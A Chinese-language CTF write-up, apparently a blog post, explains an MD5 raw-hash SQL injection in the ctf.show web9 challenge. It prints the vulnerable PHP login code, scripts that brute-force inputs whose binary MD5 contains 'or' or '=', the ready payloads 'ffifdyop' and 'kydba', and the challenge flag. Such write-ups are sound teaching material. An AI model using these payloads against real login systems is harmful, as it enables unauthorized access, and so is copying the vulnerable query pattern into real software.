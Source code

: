 ```yaml
---
title: MD5哈希注入
date: 2020-04-15
image: 
description: 
categories: 
- ctf_writeup
tags:
- SQLi
---
```

在网上看到一道CTF题目：https://ctf.show/challenges#web9

打开后扫目录发现robots.txt，里面提示了index.phps，下载，审计，发现MD5哈希注入：

```
<?php
    $flag="";
    $password=$_POST['password'];
    if(strlen($password)>10){
      die("password error");
    }
    $sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
    $result=mysqli_query($con,$sql);
    if(mysqli_num_rows($result)>0){
        while($row=mysqli_fetch_assoc($result)){
           echo "登陆成功<br>";
           echo $flag;
        }
    }
?>
```

问题出在第7行`md5($password,true)`，密码使用了 md5 以二进制形式加密后进行在数据库中进行查询，若查询到了数据，就返回成功。

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165922.png)

 

第一种方法是将加密后的密码构造出类似 ' or '1' 的形式

```
<?php

    $v = 'a';

    $payload2 = "'or'";
    while(1){
        $hash = hash("md5",$v,true);
        if(substr_count($hash, $payload2) == 1){
            die($v);     
        }
        $v++;
    }

?>
```

这是网上的脚本不过我倒是没跑出来。。。

这里 `$v++` 其实是按照 ascii 字符进行后移的；

最后可以得到一个结果 `ffifdyop`，（还有一个是`129581926211651571912466741651878684928`）

将这个加密回去试试，看到确实是`'or'`的形式

那么只要我们随意输入一个用户名，密码为 `ffifdyop` 那么这样我们的语句就变成了：

```
select * from users where user = 'admin' and password = ''or'6蒥欓!r,b'
```

这样就可成功绕过判断。

 

还有一个构造的方法是构造 `'='` 的形式，也就是

```
select * from users where user = 'admin' and password = ''=''
```

为什么这样构造可以呢？因为 `password = ''=''` 中，先判断 `password =''` ，这个肯定是返回 0 的，因为 password 中没有`''`这个字段值，前面返回 0 以后，再和后面的等号做比较：`0 = ''`

因为后面的根据 php 的弱类型进行判断，0 和字符串比较始终返回 1

所以整个 sql 语句就相当于：

```
select * from users where user = 'admin' and 1
```

所以与上面的 'or' 不同的是，这个需要传入一个存在的用户名才可以正常绕过：

```
//by wh1sper
<?php

$v = 'a';

//die(md5('kydba',true));

$payload2 = "'='";
while(1){
    $hash = hash("md5",$v,true);
    if(preg_match("/^$payload2/i", $hash)){
        die($v);
    }
    $v++;
}
```

得到结果是`kydba`，加密回去是`'='NJ��s��5�z��@`

flag{9e92802a-684e-4115-bbe8-f3fdbbf71339}